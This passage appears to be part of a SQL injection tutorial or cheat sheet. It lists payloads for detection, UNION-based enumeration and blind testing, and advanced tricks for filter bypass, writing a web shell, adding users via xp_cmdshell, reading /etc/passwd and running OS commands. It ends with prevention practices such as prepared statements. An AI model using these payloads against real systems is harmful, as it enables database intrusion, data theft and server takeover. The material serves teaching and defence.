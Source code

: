
## 5️⃣ Common Payload Examples

| Goal               | Payload                                                            |
| ------------------ | ------------------------------------------------------------------ |
| Test for injection | `' OR '1'='1--`                                                    |
| Union select       | `' UNION SELECT null, version()--`                                 |
| List tables        | `' UNION SELECT table_name, null FROM information_schema.tables--` |
| Blind boolean      | `' AND 1=1--`/`' AND 1=2--`                                        |
| Blind time-based   | `' OR IF(1=1, SLEEP(5), 0)--`                                      |

---

## 6️⃣ Advanced Exploitation

- **Bypassing Filters** :
- Comments: `admin'--`
- Case changes: `UnIoN SeLeCt`
- Encoding: `%27` for `'`
- **Privilege Escalation** :
- MySQL: `SELECT ... INTO OUTFILE '/var/www/html/shell.php'`
- MSSQL: `xp_cmdshell 'net user hacker pass /add'`
- **File Read/Write** :
- MySQL: `LOAD_FILE('/etc/passwd')`
- **OS Command Execution** :
- MSSQL: `xp_cmdshell`
- PostgreSQL: `COPY ... FROM PROGRAM 'command'`

---

## 7️⃣ Prevention

### **Best Practices**

- **Parameterized Queries / Prepared Statements** :

```php
  $stmt = $pdo->prepare('SELECT * FROM users WHERE username = ? AND password = ?');
  $stmt->execute([$username, $password]);
```

- **Stored Procedures** (with care).
- **Input Validation** — allowlists for expected formats.
- **Least Privilege** — DB user should have minimal rights.
- **Error Handling** — generic messages to users, detailed logs internally.
- **WAF/IDS** — detect/block known SQLi patterns.

---
